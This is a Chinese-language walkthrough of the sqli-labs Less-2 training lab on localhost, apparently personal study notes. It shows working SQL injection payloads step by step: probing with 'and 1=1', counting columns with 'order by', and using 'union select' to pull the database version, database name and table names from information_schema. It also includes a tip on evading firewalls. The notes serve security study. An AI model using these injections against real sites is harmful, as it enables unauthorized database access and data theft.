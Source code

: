 #### 第一步 判断注入点

```
http://localhost/sqli_labs/Less-2/?id=1 
http://localhost/sqli_labs/Less-2/?id=1 and 1=1
```

    判断有无注入点  and 1 = 1； true

**当注入点为字符型时，and 1=2 页面仍然可以执行**

**当注入点为数字型时，and 1=2 页面不能执行**

```
小技巧：判断类型时，可以使用id=2-1来查看，数字型则会返回第一个结果，相反字符型无法运算
```

**select * from ser where name = $name and 1=1**

 随便输入内容 == 报错 注入

    == 没有注入

#### 第二步 判断字段数（列数）

   猜解列名数量 order by           %20 空格
    group by    		//group by 一般注入时不会被防火墙发现


```
http://localhost/sqli_labs/Less-2/?id=1 order by 3  正确
http://localhost/sqli_labs/Less-2/?id=1 order by 4    报错
```

   猜解有几个字段      测试结果反馈3个字段

#### 第三步 判断回显点 union

**id=-1**

**因为这里****优先显示的是联合查询的第一个结果，而第二个结果未被显示**。

![image-20230613234526380](file://C:\Users\XM\AppData\Roaming\Typora\typora-user-images\image-20230613234526380.png?lastModify=1686712900)

**所以我们只需要在这里****使联合查询的第一个结果不显示**（使前半段语句为假，则不返回任何内容）：

![image-20230613234550779](file://C:\Users\XM\AppData\Roaming\Typora\typora-user-images\image-20230613234550779.png?lastModify=1686712900)

**我们发现  ”Your Login Name“  后显示的是第二个字段的内容**
**						**“Password”         后显示的是第三个字段的内容

**说明Angelina是第二个字段的内容，I-kill-you是第三个字段的内容**

#### 第四步 信息收集

**数据库版本 version()    只有高版本才有系统库， 高版本：5.0以上          低版本：5.0以下**

* **系统库： ****infromation_schema**
* **数据库名称：database（）**
* **schemata表** (mysql服务器中所有**数据库信息**的表)
* **tables表** (mysql服务器中所有**表信息**的表)
* **columns表**（mysql服务器所有**列信息**的表）
* **table_schema 数据库名**
* **table_name 表名**
* **column_name 列名**
* . 下一级
  **infromation_schema.tables 查找表名**
  **infromation_schema.columns 查看列名**

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2 union select 1,version(),database()
//查询数据库版本和数据库名
```

![image-20230613235009300](file://C:\Users\XM\AppData\Roaming\Typora\typora-user-images\image-20230613235009300.png?lastModify=1686712900)

```
http://localhost/sqli_labs/Less-2/?id=2 and 1=2  union select 1,table_name,3 from information_schema.tables where table_schema='security'
//显示security库中的第一张表
```

![image-20230614003515005](file://C:\Users\XM\AppData\Roaming\Typora\typora-user-images\image-20230614003515005.png?lastModify=1686712900)
